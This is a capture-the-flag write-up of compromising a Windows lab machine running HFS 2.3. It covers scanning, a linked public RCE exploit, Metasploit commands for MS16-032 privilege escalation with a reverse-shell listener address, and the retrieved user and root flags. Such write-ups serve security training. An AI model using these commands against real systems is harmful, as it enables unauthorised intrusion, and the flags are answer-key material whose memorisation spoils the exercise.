# Scanning
## Rustscan

```bash
rustscan -a 10.10.10.8 -r 1-1000 -b 100 
```


## Nmap

```bash
# Nmap 7.94SVN scan initiated Fri May 16 15:10:08 2025 as: nmap -sC -sV -T5 -oA nmap/initials 10.10.10.8
Nmap scan report for 10.10.10.8 (10.10.10.8)
Host is up (0.18s latency).
Not shown: 999 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
80/tcp open  http    HttpFileServer httpd 2.3
|_http-server-header: HFS 2.3
|_http-title: HFS /
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri May 16 15:10:38 2025 -- 1 IP address (1 host up) scanned in 29.60 seconds
```

- The scan reveals only one open port: 80 (HTTP) running HttpFileServer (HFS) version 2.3.
- The target is confirmed to be a Windows machine.
- RustScan was used first for quick port discovery, followed by a detailed Nmap scan to identify services and versions.
- HFS (HTTP File Server) is a free web server specifically designed for file sharing, often used for quick setup without complex configuration.
# Enumeration

- After identifying the web application as HFS 2.3, I conducted research to find potential vulnerabilities.
- The application version information was clearly visible in the HTTP headers and page title.
- A search for exploits revealed multiple available options for this specific version.
- HFS 2.3 is known to have several critical vulnerabilities, including remote code execution issues through the search function and macro functionality.

## Searching Exploits Online



- Found a suitable exploit on GitHub: https://github.com/thepedroalves/HFS-2.3-RCE-Exploit
- This exploit leverages a remote code execution vulnerability in HFS 2.3.
- The vulnerability exists because HFS fails to properly sanitize user input in search queries, allowing for command injection.
- This particular version (2.3) was released in 2014 and has not received security updates to patch these vulnerabilities.



# Exploitation

## Initial Foot Hold

- The exploit was executed successfully against the target.
- This provided an initial user-level shell on the system.
- The exploit works by sending a specially crafted HTTP request that contains a command injection payload.
- When the server processes this request, it executes our commands with the privileges of the user running the HFS service.




- Initial reconnaissance showed the user context was "kostas", a standard user account on the system.
- The shell provides limited access but sufficient to begin internal enumeration and locate the user flag.
- User flag successfully retrieved:

```lua
ca03a3a501d204b062958bfa014f9e9f
```

# Post Exploitation
## Metasploit Post Exploitation Module 

- For privilege escalation, utilized Metasploit's local exploit suggester module to identify potential vectors.
- The module scans the target system for applicable vulnerabilities based on its configuration.
- This automated tool checks for missing patches, vulnerable services, and other common privilege escalation paths without manual enumeration.

```bash
use post/multi/recon/local_exploit_suggester 
set SESSION 5
run
```



## Privilege Escalation

- While investigating the suggester results, performed additional research online for suitable Windows privilege escalation exploits.
- Identified MS16-032 (Secondary Logon Handle) privilege escalation vulnerability as a promising candidate.
- This vulnerability affects multiple Windows versions and has reliable public exploits available.
- The exploit targets a flaw in the Windows Secondary Logon Service that allows a standard user to elevate privileges to SYSTEM.




### MS16-032 Vulnerability Background

- MS16-032 (CVE-2016-0099) is a privilege escalation vulnerability in the Windows Secondary Logon Service.
- The vulnerability exists due to improper handling of security impersonation tokens in the Secondary Logon Service.
- When exploited, it allows a standard user to elevate privileges to SYSTEM by triggering a race condition in the handling of these tokens.
- Microsoft patched this vulnerability in March 2016, but many systems remain unpatched and vulnerable.
- This vulnerability is particularly effective because it works on multiple Windows versions (Windows 7-10, Server 2008-2012 R2) and has high reliability.

- Used the corresponding Metasploit module to exploit the vulnerability:

```bash
use windows/local/ms16_032_secondary_logon_handle_privesc
set session 5
set lhost 10.10.16.10
set lport 4545
run
```




- Privilege escalation was successful, providing SYSTEM-level access to the target.
- SYSTEM privileges represent the highest level of access on a Windows machine, equivalent to root access on Linux systems.
- With these elevated privileges, full control of the system was achieved, allowing access to all files and configuration settings.




- Root flag successfully retrieved:
```lua
8a532739186a7fb45ef0f03dec9b85fe
```

